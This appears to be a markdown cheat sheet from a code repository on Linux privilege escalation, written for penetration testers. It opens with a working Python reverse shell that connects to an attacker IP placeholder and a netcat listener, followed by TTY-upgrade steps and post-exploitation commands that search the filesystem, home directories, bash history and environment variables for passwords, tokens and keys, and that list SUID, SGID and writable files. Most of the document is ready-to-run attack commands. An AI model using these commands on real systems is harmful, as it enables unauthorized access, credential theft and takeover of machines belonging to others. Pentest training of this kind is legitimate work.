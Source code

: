 # BASIC PRIVILEGE ESCALATION ENUMERATION & EXPLOITATION
This document contains a list of useful commands for privilege escalation in Unix-like operating systems. These commands can help identify potential vectors for escalating privileges on a system. Most of them should be exploitable with the help of [GTFOBins](https://gtfobins.github.io/).

## Python Reverse Shell & Netcat Listener
It connects a compromised machine to an attacker's IP for remote command execution, while a Netcat listener waits on a specified port to receive incoming connections from such reverse shells.
#### Python TTY Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.x.y",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```
#### Netcat listener
```
nc -nvlp 4444
```

## Upgrading to a TTY Shell
A TTY (teletypewriter) shell is a command-line interface that allows users to interact with the operating system through a terminal, enabling input and output of text commands and responses in a real-time, interactive session. It simulates the behavior of traditional teletypes, providing a way to execute commands and scripts in a Unix-like environment. There are a total 3 steps to spawning a successful TTY Shell:
- STEP-1: Run the below command to spawn a better-featured pretty-looking bash shell without tab autocomplete or the arrow keys.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- STEP-2: Run the below command to set or modify the PATH environment variable in a Unix-like OS.
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```
- STEP-3: Run the below command to access term commands such as `clear`.
```
export TERM=xterm-256color
```
- STEP-4: Background the Session using the SHORTCUT: `CTRL + Z`.
- STEP-5: Run the below command to turn off the terminal echo (allowing tab autocompletes, arrow keys, and Ctrl + C process killing).
```
stty raw -echo; fg; reset
```
- STEP-6: (Optional) Run the below command to Set the terminal size to 200*200 for better readability.
```
stty columns 200 rows 200
```
---
#### Here is a Semi-combined Commands
- STEP-1:
```
python3 -c 'import pty;pty.spawn("/bin/bash")' && export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp && export TERM=xterm-256color
```

- STEP-2: Press `CTRL + Z`  To background the process.
- STEP-3:
```
stty raw -echo; fg; reset; stty columns 200 rows 200
```
---
## BASIC POST-EXPLOITATION ENUMERATION COMMANDS

### Finding Secret Files
- Searching for files containing sensitive information such as API keys, tokens, or passwords. It lists files based on specific keywords often associated with sensitive data.
```
find / -type f -exec ls -lsha {} + | grep -E -i '.secret|secret|token|key|api|password|username|db_password|mysql_password|mysql_user|databasepassword|mysql_root_password|mysql_password|credentials|creds|pass'
```

### Finding SUID Files
- Finding the files with SUID (Set User ID) execution permissions of the file Owner which could be used to escalate privileges.
```
find / -perm -4000 -type f 2>/dev/null
```

### Finding SGID Files
- Finding the files with SGID (Set Group ID) execution permissions of the file Owner's group which could be used to escalate privileges.
```
find / -perm -2000 -type f 2>/dev/null
```

### Finding Capabilities of Files
- Recursively listing the capabilities of all files on the root file system, suppressing error messages.
```
getcap -r / 2>/dev/null
```

### Checking Permissions on /etc/passwd & /etc/shadow
- This command checks the permissions of the /etc/passwd file, which may be writable and could allow unauthorized modifications.
```
ls -la /etc/passwd && ls -la /etc/shadow
```

### Listing Scheduled Cron Jobs
- Viewing cron jobs can reveal scheduled tasks that may be leveraged for privilege escalation.
```
cat /etc/crontab && ls /etc/cron.* && crontab -l && ls /var/spool/cron/crontabs
```

### Searching for Passwords in Home Directory
- Searches for occurrences of the term "password" recursively within the /home directory, which may help locate files containing sensitive information.
```
cd /home && grep -rnH "password"
```

### Checking Sudo Permissions
- Finding out what SUDO privileges the current has (If any):
```
sudo -l
```

### Environment Variables
- This command lists all environment variables, which can sometimes include sensitive information like passwords.
```
env
```

### Accessing User's Bash History
- The following command displays the contents of the `.bash_history` file, which may contain sensitive information such as passwords that were previously entered in the terminal.
```
cat .bash_history
```

### Checking User and Host Information
- Checking user and group details can provide insight into potential privilege escalation opportunities.
```
whoami && id && hostname
```

### Finding Writable Files and Directories
- Identifying files and directories writable by the user can help in various privilege escalation scenarios.

Writable Files
```
find / -writable -type f 2>/dev/null
```
Writable Directories
```
find / -writable -type d 2>/dev/null
```

### Finding Executables in PATH
- Finding executables in the PATH environment variable can help identify potentially exploitable scripts or binaries.
```
echo $PATH | tr ':' '\n' | xargs -I {} find {} -type f -executable 2>/dev/null
```

Feel free to modify or expand upon this template based on your needs. If you have any specific commands or sections you’d like to add, let me know!
